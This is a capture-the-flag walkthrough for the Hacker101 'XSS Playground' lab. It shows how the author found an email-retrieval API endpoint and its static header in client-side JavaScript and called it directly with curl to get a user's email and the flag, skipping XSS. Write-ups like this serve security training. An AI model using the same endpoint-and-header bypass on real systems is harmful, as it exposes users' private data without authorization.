


# XSS Playground by zseano — Walkthrough

At first glance, this CTF gives the impression that the goal is to achieve **XSS** in order to obtain the flags. However, while inspecting the application, I noticed something interesting: I **did not have permission to view the user’s email address**.



---

## Identifying the Email Retrieval Endpoint

While proxying the traffic through **Burp Suite**, I came across a JavaScript file that defined several client-side functions. One of them was responsible for retrieving the user’s email:

```javascript
function retrieveEmail(e){
    var t = new XMLHttpRequest;
    t.open("GET", "api/action.php?act=getemail", true);
    t.setRequestHeader("X-SAFEPROTECTION", "enNlYW5vb2Zjb3Vyc2U=");
    t.onreadystatechange = function(){
        this.readyState === XMLHttpRequest.DONE && this.status
    };
    t.send();
}
```

This function clearly shows that the email is fetched via a **GET request** to the endpoint:

```
/api/action.php?act=getemail
```

with a custom header:

```
X-SAFEPROTECTION: enNlYW5vb2Zjb3Vyc2U=
```

---

## Accessing the Endpoint Manually

Instead of exploiting XSS, I tried accessing the endpoint directly using `curl`:

```bash
curl -X GET "https://d6c2020b73333e3283adf90fff0618e0.ctf.hacker101.com/api/action.php?act=getemail" \
  -H "X-SAFEPROTECTION: enNlYW5vb2Zjb3Vyc2U=" \
  -H "Accept: application/json" \
  --http1.1
```

The response returned both the **email address** and the **flag**, confirming that direct access to the endpoint was sufficient.



---

## Note on HTTP Version

> **Note:** I forced the use of **HTTP/1.1** because when using **HTTP/2**, the server returned an empty response body.  
> This appears to be a server-side issue related to how the backend handles HTTP/2 responses.

